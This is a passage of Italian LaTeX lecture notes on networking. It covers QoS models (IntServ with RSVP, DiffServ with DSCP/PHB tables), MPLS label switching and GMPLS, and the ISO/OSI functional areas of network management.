	\item Si fissano dei limiti per la lunghezza della coda ed a seconda del loro superamento si scartano i nuovi pacchetti in arrivo.
	\item La probabilità di scarto può dipendere in modo pesato dal tipo di classe cui appartengono (WRED).
	\item Sfrutta rate adattivo del TCP, che vede lo scarto del pacchetto come dovuto a congestione, e dunque rallenta il rate in trasmissione; non funziona con UDP.
\end{itemize}
Si noti che quella appena descritta è una tecnica atta ad \textit{evitare} la congestione sul nodo di rete, anziché gestirla una volta avvenuta.

In Internet ci sono sostanzialmente due modelli di gestione della QoS: \textbf{Integrated Services (IntServ)} (Giugno 1994, RFC 1633) e \textbf{Differentiated Services (DiffServ)} (Dicembre 1998, RFC 2475). Non sono più utilizzati per problemi pratici.\\
Il modello IntServ prevede di \textit{prenotare le risorse} necessarie al mantenimento della QoS richiesta in \textit{ogni apparato} di rete attraversato da un flusso dati. Il flusso è inteso come sequenza di pacchetti con stesso indirizzo IP sorgente e destinazione e stessi Port numbers. Ogni router della rete deve allocare risorse (banda, memoria, etc.) a
sufficienza per ciascun flusso e ciascun router della rete deve avere un \textit{per-flow state} relativo a ciascun flusso a cui viene data QoS. Poiche le risorse su ogni router sono limitate, ciascun router dovrà controllare e decidere quali flussi allocare e quali rifiutare: per questo esiste un \textit{Admission Control}. Il modello IntServ ha tre componenti base:
\begin{itemize}
	\item \textbf{Traffic Classes}. Classi di servizio ottenibili da un flusso. I parametri di ciascuna classe possono essere modificati a piacimento.
	\item \textbf{Traffic Control}. Esegue controllo sul traffico che transita su ogni nodo di rete. È composto da vari sotto-componenti.
	\item \textbf{Setup Protocol}. Costituisce il sistema di segnalazione fra i nodi di rete per l'allocazione delle risorse. È anche la base per l'Admission Control.
\end{itemize}
Le Classi di Traffico (Traffic Classes) ammissibili sono tre:
\begin{enumerate}
	\item \textbf{Default}. È il servizio Best Effort dell'Internet attuale, anche se non è una vera Traffic Class.
	\item \textbf{Guaranteed Service}. Supporta traffico Real-Time che richiede un ritardo di propagazione limitato. Offre una \textit{garanzia} sulla QoS offerta.
	\item \textbf{Controlled Load Service}. Approssima un servizio di tipo Best Effort su una rete \textit{non congestionata} (avere prestazioni ottimali).
\end{enumerate}
La definizione del Guaranteed Service nasconde un grosso problema: la garanzia. Per ottenere davvero un Guaranteed Service si dovrebbe usare un non work conserving scheduler, dunque di solito si usa il Controlled Load Service. Il Traffic Control viene effettuato tramite tre sotto-sistemi:
\begin{enumerate}
	\item \textbf{Admission Control}. Controlla che le risorse sul router e nella rete possano supportare un particolare servizio richiesto.
	\item \textbf{Packet Classifier}. Esamina indirizzo IP e Port Number per vedere la classe a cui appartiene.
	\item \textbf{Packet Scheduler}. Effettua lo scheduling dei pacchetti per trasmetterli alla porta di uscita del router (usando ad esempio WFQ).
\end{enumerate}
Ovviamente nel caso di un router c'è anche una sezione relativa al forwarding dei pacchetti.
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.4]{images/int-serv-router}
	\caption{Schema di un nodo IntServ.}
	\label{img:int-serv-router}
\end{figure}
In Figura \ref{img:int-serv-router} è rappresentato lo schema di ogni IntServ router. Vi è un classificatore di pacchetti per riconoscere se un pacchetto appartiene ad un flusso gestito e che deve essere confrontato con un database QoS; l'admission control viene utilizzato solo se il pacchetto appartiene ad un flusso nuovo. Vi è poi un forwarder che, sulla base della decisione presa e della routing table, decide di inoltrare il pacchetto, che andrà agli scheduler. Gli scheduler agiranno di conseguenza alla QoS decisa. Un limite di IntServ risiede routing table, che è diversa da quella normalmente usata: se è stato allocato un path per far comunicare due host, questo potrebbe cambiare nel corso della trasmissione per vari motivi (e.g. decisi dall'IGP), e la routing table deve essere \textquotedblleft interrotta" (per flussi con QoS). Inoltre, se vi è un guasto, il flusso va negoziato, ed Packet Classifier può rivelarsi computazionalmente molto costoso, dipendentemente dal tipo di rete su cui opera. Un aspetto positivo è il \textbf{Resource Reservation Protocol (RSVP)}, cioè il protocollo di setup dei nodi di rete. Sostanzialmente abilita gli host o i router a richiedere l'allocazione delle necessarie risorse di rete ed installa nei nodi di rete il \textquotedblleft Per-Flow state" soft (refreshing periodico). Il Per-Flow state è \textit{soft}, nel senso che se non ne viene fatto il refresh viene cancellato dopo un certo timeout; questo evita che un elemento di rete possa finire le proprie risorse a causa di un errore di comunicazione (es. un host che scompare senza effettuare il teardown della comunicazione). In IntServ si identificano due ruoli: il \textit{sender}, cioè colui che invia i dati soggetti a QoS, ed il \textit{receiver}, ossia colui (o coloro) che ricevono tali dati.
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.4]{images/RSVP}
	\caption{Schema del protocollo RSVP.}
	\label{img:RSVP}
\end{figure}\\
Si consideri lo schema riportato in Figura \ref{img:RSVP}. Il protocollo RSVP si basa su due messaggi: \textit{PATH Message}, trasmesso dal \textit{Sender} verso i \textit{Receivers} (unicast o multicast) che indica il percorso che seguiranno i pacchetti, e \textit{RESV Message}, trasmesso dai \textit{Receivers} verso il \textit{Sender} in risposta al suo PATH, eventualmente modificando alcuni parametri. Vediamo più nel dettaglio come funzionano questi due tipi di messaggio. Nel messaggio PATH il Sender avvia una sessione RSVP, inserisce nel PATH message il \textit{Sender Template} (i.e. indirizzo IP e numero di porta) ed il \textit{Sender Tspec}, che descrive le caratteristiche del traffico dati che sarà generato; ciascun router memorizzerà il Sender Template, installerà lo stato della richiesta, e potrà aggiornare l'\textit{Adspec}, che riassume le caratteristiche di QoS del percorso fatto fino a quel router. Nel messaggio RESV, il Receiver riceve il PATH contenente anche una traccia del percorso fatto dal PATH e genera un RESV message, contenente il \textit{FilterSpec} (i.e., indirizzo IP e numero di porta del Receiver) ed il \textit{Flowspec} (descrive la QoS che il Receiver richiede); l'Admission Control di ogni router effettua l'ultimo controllo per determinare se le risorse sono disponibili ed in caso non lo siano viene generato un messaggio d'errore per il Receiver; infine ciascun router si aggiorna tramite il Filterspec e il Flowspec.\\
Per avere maggior controllo sulla QoS delle applicazioni, RSVP prevede diversi \textquotedblleft reservation styles", fra cui: \textit{Fixed-Filter (FF)}, in cui vi è una prenotazione di banda per ogni utente chiamante (es.: videoconferenza con requisiti di ritardo stringenti), e \textit{Shared-explicit (SE)}, in cui più utenti chiamanti nella stessa sessione possono dividere una prenotazione di risorse (es.: voiceconference dove solo uno per volta può parlare). RSVP supporta anche il multicast: riassume le prenotazioni provenienti da ciascun flusso, allocando sul nodo la maggior banda richiesta, e poi trasmette il Flowspec totale al router vicino (farà admission control sul flusso totale). È molto flessibile. Si noti che RSVP e IntServ sono \textit{unidirezionali}: per una \textquotedblleft telefonata" VoIP servono due sessioni IntServ.\\
Gli aspetti positivi sono: allocazione dinamica della banda, supporto quasi completo di RSVP, ed è un protocollo relativamente maturo, e dunque più stabile e diffuso. Vi sono però diversi problemi, per il quale non viene usato, tra cui: aggiornamento continuo (ogni 30 secondi) che comporta un notevole aumento del traffico di segnalazione, richiesta di memorizzazione di molti oggetti relativi ad ogni flusso su ogni router, necessita di una rete con buon Best Effort e routing stabile (le tabelle non devono variare troppo). In pratica \textit{non è scalabile in reti di elevate dimensioni}. Infine, basta un solo router che non supporta IntServ per farlo cadere.

Il DiffServ è il contrario del IntServ. Il modello DiffServ si basa sul multiplexing statistico, ossia si dividono (dinamicamente) le risorse di rete tra un numero limitato di diversi \textquotedblleft tipi" di traffico, in modo che ciascuno sia sostanzialmente isolato dagli altri. La complessità si sposta all'edge della rete, dove si classificano i singoli pacchetti, si marchiano (\textit{colorazione}) e si aggregano per poi inviarli nel core; flussi provenienti da diverse applicazioni vengono aggregati insieme e trattati allo stesso modo. Si opera in pratica su aggregati. Nel core il flusso aggregato riceve un trattamento relativo alla classe di servizio (al colore) dei pacchetti che contiene (\textit{Per-Class}, non più Per-Flow). Non vi è più segnalazione (RSVP), né admission control, e dunque è necessario ricorrere al \textit{provisioning} delle risorse a priori (vengono allocate più risorse del necessario), e viene controllato all'edge che il traffico immesso non sia eccessivo. Non vi è più traffico di segnalazione. La base del DiffServ e nel modo in cui si \textquotedblleft colorano" i pacchetti e come il \textquotedblleft colore" viene trattato. Il colore viene inserito nei bit di header IP del Traffic Class (IPv6) e nei bit di header IP del Type of Service (IPv4), precisamente nel \textit{DSCP} (6 bit). Abbiamo inoltre il \textit{Per-Hop-Behavior (PHB)}, che definisce il servizio che il pacchetto riceverà a ciascun hop nella rete, ed il \textit{Behavior Aggregate (BA)}, un  gruppo di pacchetti (aggregato) con stesso DSCP: nella rete si applica un PHB ad ogni BA.\\
I nodi DiffServ agiscono diversamente tra \textit{Edge} e \textit{Core}.
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.4]{images/diffserv-edge-node}
	\caption{DiffServ Edge node.}
	\label{img:diffserv-edge-node}
\end{figure}
In Figura \ref{img:diffserv-edge-node} è riportato un nodo di bordo (edge) DiffServ. Il Packet Classifier implementa un metodo di classificazione, il Policer effettua un controllo del rispetto del Service Level Agreement ed il Marker provvede ad effettuare una marchiatura con il DSCP appropriato. Abbiamo visto che in un core node vi è un BA Classifier, basato sul DSCP e su altri parametri di livello MAC, da cui si ricava il PHB, e lo scheduler, basato sul PHB. Si tenga presente che il PHB ed il DSCP non sono la stessa cosa: il PHB indica la QoS da assegnare al pacchetto, il DSCP sono sei bit che indicano il colore del pacchetto. Un router ricava il PHB dal BA classifier. L'insieme dei PHB compongono il Behavior Aggregate (BA). Esistono tre tipi di PHB:
\begin{itemize}
	\item \textit{Default}. È il Best Effort tradizionale, non vi è QoS.
	\item \textit{Expedited Forwarding (EF)} -- RFC 2598. Connessioni con basse perdite, basso ritardo e basso jitter. Usa un solo DSCP (101110, 46) per immettere il pacchetto nella coda a più alta priorità nei router di rete (con WFQ ad esempio).
	\item \textit{Assured Forwarding (AF)} - RFC 2597. Definisce 4 classi di servizio relative, ciascuna con tre livelli di precedenza di scarto; usa 12 distinte combinazioni di DSCP. Il SLA dipende da: classe AF (risorse allocate), livello di traffico di quella classe, drop precedence (in caso di congestione).
\end{itemize}
Il PHB AF e quello maggiormente in uso, e definisce una matrice di $4\times 3$ possibili comportamenti (4 classi con 3 probabilità di scarto ciascuna):
\begin{table}[htbp]
	\centering
	\begin{tabular}{l|c|c|c|c|}
		& Class 1 & Class 2 & Class 3 & Class 4 \\
		\hline
		\begin{tabular}{l}Low\\Drop\end{tabular} & \begin{tabular}{c}001010\\$10_{10}$ $12_8$\end{tabular} & \begin{tabular}{c}010010\\$18_{10}$ $22_8$\end{tabular} & \begin{tabular}{c}011010\\$26_{10}$ $32_8$\end{tabular} & \begin{tabular}{c}100010\\$34_{10}$ $42_8$\end{tabular} \\
		\hline
		\begin{tabular}{l}Medium\\Drop\end{tabular} & \begin{tabular}{c}001100\\$12_{10}$ $14_8$\end{tabular} & \begin{tabular}{c}010100\\$20_{10}$ $24_8$\end{tabular} & \begin{tabular}{c}011100\\$28_{10}$ $34_8$\end{tabular} & \begin{tabular}{c}100100\\$36_{10}$ $44_8$\end{tabular} \\
		\hline
		\begin{tabular}{l}High\\Drop\end{tabular} & \begin{tabular}{c}001110\\$14_{10}$ $16_8$\end{tabular} & \begin{tabular}{c}010110\\$22_{10}$ $26_8$\end{tabular} & \begin{tabular}{c}011110\\$30_{10}$ $36_8$\end{tabular} & \begin{tabular}{c}100110\\$38_{10}$ $46_8$\end{tabular} \\
		\hline
	\end{tabular}
	%\caption{}
	%\label{tab:PHB-AF}
\end{table}\\
La classe è definita nei primi tre bit, mentre la drop precedence è definita nei secondi tre bit. Si noti che la classe non definisce una priorità relativa: è compito dell'ISP definire le associazioni di priorità, ossia i PHB ed i BA.\\
Vantaggi del DiffServ:
\begin{itemize}
	\item Maggiore scalabilità, la complessità viene spostata sull'edge.
	\item Non è più necessario il protocollo di segnalazione RSVP: minor overhead.
	\item Clienti diversi possono essere \textquotedblleft partizionati" in varie classi.
	\item Si integra piuttosto bene con le tecnologie di livello rete.
\end{itemize}
Svantaggi del DiffServ:
\begin{itemize}
	\item La diffusione dei DiffServ su domini di providers diversi impone accordi di peering bilaterali, difficili da gestire.
	\item Bisogna non immettere in rete traffico in eccesso, cosa piuttosto complicata. L'Admission Control manca, quindi bisogna usare il \textit{Traffic Engineering}\footnote{Con il termine Traffic Engineering si indicano tutte le tecniche online o offline di misurazione e previsione del traffico atte a prevedere una QoS ed implementare delle tecniche qualsiasi per ottimizzare l'uso della rete e delle risorse.}: si predice il traffico di un determinato BA e si tarano il
	routing, le precedenze, gli scheduler, etc. in modo da ottenere la QoS voluta.
	\item È QoS \textit{statistica}, quindi non funziona su reti con poca banda.
	\item Va comunque rispettata la regola di Van Jacobson: se vogliamo mantenere la QoS su una rete in cui non vi sono metodi di supporto alla QoS (over-provisioning), l'occupazione della rete deve essere $\approx 30\%$. I link non devono comunque superare il 50-70\% della loro capacità, in caso di sistema statistico.
\end{itemize}
DiffServ può funzionare bene, con occupazioni della rete anche superiori al 70\%, ma deve essere accoppiato con altri metodi di supporto alla QoS, come MPLS che si occupa della riservazione delle risorse.

\section{MPLS}
In un router convenzionale le funzioni di forwarding sono ad alto costo computazionale e costituiscono un collo di bottiglia in caso di link ad elevate capacità (terabit). \textbf{MPLS (Multiprotocol Label Switching)} semplifica le funzioni di forwarding attraverso l'uso di un approccio completamente diverso, introducendo un meccanismo orientato alla connessione all'interno del network IP. MPLS è una tecnica level 2 mutuata dall'approccio ATM.\\
Nella metà degli anni '90 gli switch IP erano molto più lenti degli switch ATM, poiché gli switch ATM operano sul forwarding del VCI/VPI. Vennero quindi proposte numerose soluzioni proprietarie per adottare tecniche di label forwarding all'IP, da Cisco Systems (Tag Switching), IBM (aggregate route-based IP switching) e Cascade (IP Navigator): tutte avevano in comune l'idea di adottare il label switching in maniera simile a quello usato da ATM. Dunque nel 1997 IETF aprì un gruppo di lavoro per definire MPLS come approccio standard. MPLS viene definito come standard nel 2001 (primo set di Proposed Standard), ma negli ultimi anni '90, però, erano già stati prodotti switch IP nativi veloci quanto quelli ATM (i.e., switch hardware-based a livello IP), dunque non era più necessario usare IP over ATM per fare il routing su reti ad altissima velocità. MPLS offre tuttora cose che l'IP switching non permette (bene): QoS support, Traffic Engineering, Virtual Private Networks (soprattutto in IPv4) e Multiprotocol Support.\\
Come abbiamo visto, DiffServ e IntServ hanno entrambi delle controindicazioni. In particolare, i network provider hanno necessità di: garantire specifici quantitativi di banda per determinate applicazioni, controllare la latenza/jitter, garantire i livelli di QoS specificati negli SLA e configurare la QoS in base agli utenti. MPLS fornisce un framework connection-oriented all'interno del quale è possibile soddisfare questi requisiti.\\
Il routing \textquotedblleft tradizionale" IP (e.g., OSPF) non prevede cammini multipli e opera su base pacchetto. MPLS opera su base \textit{flusso} permettendo di usare route multiple tra punti di ingresso/uscita dal network, ciascuna soggetta a QoS. Il re-routing in MPLS è esso stesso soggetto a QoS, ma è possibile  operare il cosiddetto traffic engineering nel senso di ottimizzazione delle risorse di rete in base alle richieste di ciascun flusso. Si noti che il flusso MPLS non corrisponde ai concetti di flusso DiffServ o IntServ.\\
MPLS fa il routing in maniera \textquotedblleft blind", quindi permette di ottenere: separazione dei flussi di una VPN da quelli del normale traffico e garantire ai flussi della VPN un elevato gradi di sicurezza. Inoltre MPLS non ha necessità di \textquotedblleft vedere" nemmeno l'header IP, per cui si possono creare VPN con crittografia anche degli header IP.\\
MPLS non si basa su alcuna tecnologia in particolare, è possibile avere switch IP MPLS, ATM MPLS e Frame Relay MPLS. Inoltre gli switch MPLS-enabled possono coesistere con switch non-MPLS, e MPLS può \textquotedblleft trasportare" qualsiasi tipo di protocollo, non soltanto IP: è quindi \textit{multiprotocollo}.\\
Un network MPLS consiste in un set di nodi MPLS contigui detti \textbf{LSR (Label Switching Routers)}. Una label definisce un flusso di pacchetti tra due endpoint o, nel caso di multicast, tra un ingress node e molti egress nodes. Un flusso con una label si chiama \textit{FEC (Forward Equivalence Class)} e per ciascuna FEC viene stabilito un path attraverso il network. Una FEC è caratterizzata anche dalla QoS richiesta per quella FEC. Si noti il mix tra concetti IntServ e DiffServ. Mentre per IntServ un flusso è unidirezionale tra un nodo ed un altro (end-to-end), per DiffServ è dato dai pacchetti che hanno lo stesso colore e per MPLS è dato dai pacchetti che hanno la stessa label.
\begin{figure}[htbp]
	\centering
	\includegraphics[scale = 0.4]{images/MPLS}
	\caption{Funzionamento MPLS.}
	\label{img:MPLS}
\end{figure}
È possibile in questo modo aggregare dei dati che hanno bisogno della stessa QoS. In Figura \ref{img:MPLS} è riportato il funzionamento del MPLS. Prima del routing/delivery dei pacchetti di una FEC si deve stabilire il path (\textit{LSP - Label Switched Path}). I parametri di QoS del FEC determinano la quantità di risorse assegnate a quel FEC e le politiche di accodamento e scarto per quel FEC. Per far ciò si fa ricorso sia ad algoritmi IGP (come OSPF) per costruire e mantenere la topologia della rete sia a politiche di assegnazione e distribuzione delle label. Le label sono locali tra due LSR e possono essere impostate manualmente o tramite protocolli come il Label Distribution Protocol (LDP) o l'RSVP-TE. Quindi una label potrebbe non essere uguale per tutto il percorso: ogni nodo può decidere se cambiarla o meno. La FEC invece rimane uguale. Abbiamo che:
\begin{enumerate}
	\item Un pacchetto entra nel ingress edge LSR, gli viene assegnata una label (FEC) in base a una serie di parametri simili a quelli DiffServ e gli viene attaccata una label (assgenazione ad un LSP) se esiste un LSP adeguato. Alternativamente l'edge LSR coopera con gli altri LSR per costruire una nuova LSP.
	\item All'interno del dominio MPLS un LSR si limita a: togliere la label in ingresso, aggiungere la label di uscita e fare il forwarding.
	\item L'egress LSR toglie la label e fa il forwarding \textquotedblleft tradizionale" sui nodi non-MPLS.
\end{enumerate}
MPLS prevede inoltre un una gestione centralizzata del permette di scegliere il path ottimo in modo globale.
\begin{figure}[htbp]
	\centering
	\includegraphics[scale = 0.4]{images/MPLS-example}
	\caption{Esempio di funzionamento MPLS.}
	\label{img:MPLS-example}
\end{figure}\\
In Figura \ref{img:MPLS-example} è riportato un esempio di funzionamento dell'MPLS. Entrano due pacchetti ed ad ognuno viene assegnata una FEC diversa (a, b) dal primo router; i nodi interni non guardano più la FEC, ma solo le label ed eventualmente le modificano.\\
Contrariamente ad ATM, che ha solo 2 livelli di stacking delle label (VCI e VPI), MPLS permette uno stacking virtualmente illimitato. Un LSR può assegnare una label a un gruppo di LSP in ingresso unendoli in un singolo LSP di uscita. All'uscita dal tunnel gli LSP vengono differenziati nuovamente. Questo è ottenuto \textit{aggiungendo} una label (stacking) alla label già presente. Le label vengono processate in ordine LIFO. Il numero di livelli di stacking non è definito, quindi non è limitato a due.
\begin{figure}[htbp]
	\centering
	\includegraphics[scale = 0.55]{images/label-format}
	\caption{Formato di una label.}
	\label{img:label-format}
\end{figure}\\
In Figura \ref{img:label-format} è riportato il formato di una label. Il campo \textit{label value} (20 bits) indica la label con significato locale; il campo \textit{exp} (3 bits) contiene dati sperimentali, come campo DS o guide relative al PHB; il campo \textit{S} (1 bit) è posto a 1 se la label è l'ultima dello stack, 0 altrimenti; il campo \textit{TTL} (8 bit) rappresenta il Time To Live.
\begin{figure}[htbp]
	\centering
	\includegraphics[scale = 0.45]{images/label-position}
	\caption{Posizione della label nei vari tipi di pacchetto.}
	\label{img:label-position}
\end{figure}\\
In Figura \ref{img:label-position} è riportata la posizione della label nei vari tipi di pacchetto: in generale questa viene sempre posta prima dell'header IP. Dal momento che l'MPLS \textit{non} esamina l'header IP, non può controllare o modificare il campo TTL dell'IP, quindi il TTL IP (o equivalente) viene replicato nella label. All'egress LSR il campo TTL della label viene ricopiato nel campo TTL dell'header IP (o equivalente); per IPv6 si usa il campo \textit{Hop Limit}. Si noti che solamente il TTL della label più \textquotedblleft esterna" ha significato. Se la label viene rimossa (i.e., fine di un tunnel) si ricopia il valore nella label più esterna corrente.\\
Per poter funzionare efficacemente è necessario poter stabilire l'LSP a cui assegnare una determinata FEC (o crearlo). MPLS permette due opzioni:
\begin{enumerate}
	\item \textbf{Hop-by-hop routing}. Ciascun LSR sceglie autonomamente il prossimo LSR. Funzionalmente equivalente all'uso di OSPF, si appoggia ai protocolli IGP. Permette i vantaggi dell'uso delle label ma \textit{non} quelli del traffic engineering, QoS, etc.
	\item \textbf{Explicit routing}. Con l'explicit routing l'ingress o l'egress LSR determinano il path completo (o quasi) del routing. L'explicit routing può essere \textit{strict} o \textit{loose}. Nello \textit{strict explicit routing} l'LSP è definito completamente tramite gli LSR coinvolti. Nel \textit{loose explicit routing} l'LSP è definito tramite alcuni degli LSR coinvolti, lasciando un margine di incertezza sugli LSR non specificati. Serve per i link di backup o laddove vi siano topologie mesh equivalenti. L'explicit routing può essere statico (LSP definiti a priori) o dinamico.
\end{enumerate}
Per l'explicit routing dinamico serve che il protocollo IGP sottostante dia metriche ricche sullo stato della rete. OSPF non è per esempio sufficiente. Sono stati definite estensioni all'OSPF per questo. La route è calcolata in base agli attributi dei link tra gli LSR (banda, ritardi, PER, PLR, etc.) ed agli attributi della FEC (QoS richiesta). Gli algoritmi di calcolo della route che si basano sugli attributi sono detti \textit{constrain-based routing algorithms} e sono notevolmente più complessi degli algoritmi tradizionali, ma vengono eseguiti solo alla creazione del'LSP.\\
Per far si che le label siano correttamente assegnate (sono locali) si devono impiegare dei protocolli di distribuzione delle label; ne esistono svariati, ad esempio LDP, RSVP-TE, etc. Il protocollo di distribuzione delle label è comunque legato al tipo di LSP (esplicito, dinamico, strict, loose) e al tipo di protocollo di routing implementato. La tecnica più usata è quella backward, che partendo dall'egress LSR informa ogni LSR precedente della label locale assegnata; non è tuttavia così semplice, dal momento che un LSP può contenere traffico multicast -e- many-to-one (il contrario del multicast).\\
Esiste una generalizzazione dell'MPLS, il \textit{GMPLS (Generalized MPLS)}. Lo scopo di GMPLS è quello di estendere i concetti di management propri di MPLS a reti di natura diversa e di estendere l'introperabilità. È un set di protocolli di management degli LSP e di setup degli LSP sui diversi tipi di rete. In particolare il focus è sul setup degli LSP, sul mantenimento della QoS e sul miglioramento della fault-tolerance della rete. È tuttavia ancora un work-in-progress, mentre l'adozione di MPLS è un dato di fatto: l'evoluzione e l'uso su larga scala di GMPLS è tuttora un'incognita. Alla fine dei conti non interessa molto, in generale, l'evoluzione di GMPLS perché al momento non vi sono forti necessità pratiche e concrete da parte degli ISP.

\section{Network Management}
Si consideri il diagramma riportato in Figura \ref{img:management-elements} che rappresenta gli elementi del management e come questi di interfacciano tra loro.
\begin{figure}[htbp]
	\centering
	\includegraphics[scale = 0.55]{images/management-elements}
	\caption{Elementi del management.}
	\label{img:management-elements}
\end{figure}
L'utente usa un servizio che è gestito da un Service Provider. Il servizio e fornito tramite il Network, gestito dal Network Operator. Gli SLA regolano i rapporti tra Utente, Service Provider e Network Operator. Supposto che il Network Operator sia \textquotedblleft consapevole" dei servizi che vengono veicolati, il suo obiettivo è quello di gestire la rete, in accordo con lo SLA, tra lui e il Service Provider. Se il Network Operator non e interessato ai servizi, allora lo SLA di riferimento è quello tra lui e l'Utente.
\begin{figure}[htbp]
	\centering
	\includegraphics[scale = 0.55]{images/management-elements-1}
	\caption{Elementi del management.}
	\label{img:management-elements-1}
\end{figure}\\
Si consideri adesso la Figura \ref{img:management-elements-1}. I colori nel primo strato sono in base al vendor. Gli elementi di rete vengono gestiti attraverso due layer di management (uno tecnico ed uno funzionale). Il livello funzionale a sua volta è \textquotedblleft guidato" da un livello di service management, che è diretto dal rispetto degli SLA. Il tutto è sottomesso ai livelli di Business Management. L'ultimo strato (quello più a destra) è l'unico ad essere realizzato da esseri umani. Gli allarmi finiscono nei Trouble Tickets che rappresentano il modo in cui, all'interno del Network Management, viene gestito un evento all'interno della rete (anche eventi esterni). I Trouble Tickets finiscono negli Outage Collection \& Computation, che effettuano delle statistiche sui guasti, e nel Performance \& Traffic Computation, che effettuano delle statistiche sugli stati della rete. Ciò che è gestito da ognuno di queste componenti è definito nel SLA. Il management si differenzia in base alle tipologie di rete: vediamole. Il Service Management si occupa della gestione dei Servizi e dei Servers che li operano. Si svolge (quasi) tutto a livello applicativo. Con Backbone Network Management si intendono reti di grandi dimensioni, apparati e links ad altissima velocità (molti clienti). Le Access Network Management sono reti di piccole dimensioni, apparati a bassa velocità; vi è un contatto diretto con gli utenti. Le LAN Network Management sono reti di piccole dimensioni. Vi è un contatto diretto con gli utenti ed una gestione congiunta dei servizi.

È molto importante definire i domini di competenza. È abbastanza chiaro che nella fruizione di un servizio i dati dell'utente attraversano un numero spesso consistente di aree sotto il controllo (management) di diverse entità. Le diverse entità devono essere in contatto tra di loro al fine di mantenere il servizio attivo, altrimenti si rischia di avere un \textquotedblleft rimpallo di competenze". Si ponga attenzione infine al fatto che l'utente stesso è un dominio di competenza, nel senso che gli apparati utente sono spesso gestiti dall'utente stesso. Se si deve offrire un servizio garantito questo elemento di incertezza è estremamente importante (esempi: il jailbreak dell'iPhone, ma anche l'aggiornamento del firmware dei telefoni aziendali).\\
Per gestire un sistema (una rete o qualsiasi altra cosa) occorre avere un metodo e degli strumenti. Entrambi sono indispensabili e paritetiche. Considerarne solo una porta semplicemente al fallimento. In letteratura si trovano due \textquotedblleft approcci", che in realtà non sono diversi, ma complementari: ISO/OSI, centrato sul metodo, e IETF, centrato sui protocolli; è una falsa dicotomia, in quanto l'uno sfrutta elementi dell'altro.

ISO/OSI definisce 5 \textbf{aree funzionali}, e divide i compiti del Network Management tra di esse. Le aree rappresentano un modello di organizzazione del lavoro ed assolvono al compito di creare un sistema funzionale ed efficace per gestire il Network. ISO/OSI definisce anche un protocollo: il CMIP (e il CMIS), ma non si usano perché troppo complessi. Un punto di forza del CMIP/CMIS è però la \textit{gestione distribuita}, che manca nel modello IETF. Le aree funzionali ISO/OSI sono (F-CAPS to remember):
\begin{enumerate}
	\item \textbf{Fault}. Gestione dei guasti e degli allarmi. Comprende: il riconoscimenti tempestivo dei guasti sulla rete (apparati di rete, server, connessioni), log dei guasti e degli allarmi, procedure aziendali dedicate, test diagnostici, il rispetto delle specifiche di contratto sul ripristino dei servizi, gestione del call center dedicato agli allarmi e dei guasti, interfacciarsi con il cliente, allarmi dovuti a guasti effettivi o a superamento di soglie prestazionali.
	\item \textbf{Configuration}. Gestione delle configurazioni. I principali compiti sono: la raccolta e distribuzione di dati sullo stato delle risorse di rete, l'inizializzazione e modifica delle configurazioni degli apparati, modifiche on-line o off-line della configurazione, variazione della configurazione per l'ottimizzazione delle prestazioni, configurazione di router, firewall, switch, provisioning delle connessioni fisiche.
	\item \textbf{Accounting}. Gestione degli account e dei costi dei servizi. I principali compiti sono: la determinazione/modifica  dei diritti e caratteristiche di accesso al servizio in base al contratto stipulato, il billing dei servizi (addebitamento dei costi agli utenti finali), la definizione di limiti di utilizzo delle risorse da parte degli utenti, il calcolo di costi combinati per l'impiego di più risorse nell'ambito di un servizio (e.g. problema del roaming in reti cellulari e nelle reti wireless LAN di nuova generazione per l'accesso a Internet per utenti mobili).
	\item \textbf{Performance}. Gestione e miglioramento delle prestazioni. Comprende: il monitoraggio delle prestazioni della rete in base alle specifiche contenute nel Service Level Agreement con il cliente, i log delle prestazioni monitorate e report agli utenti finali, la modifica dell'allocazione delle risorse della rete per soddisfare le richieste dei clienti, l'adozione di misure preventive per evitare situazioni di congestione o di disservizio.
	\item \textbf{Security}. Gestione della sicurezza e degli accessi. I principali compiti sono: l'analisi delle aree di rete a rischio (es. database con informazioni sensibili sui clienti), l'adozione di piani per la sicurezza aziendale sia fisica che di rete, il controllo ed il logging degli accessi (passwords, diritti di accesso), test di vulnerabilità sulla rete e sugli ambienti fisici di accesso a server e database.
\end{enumerate}
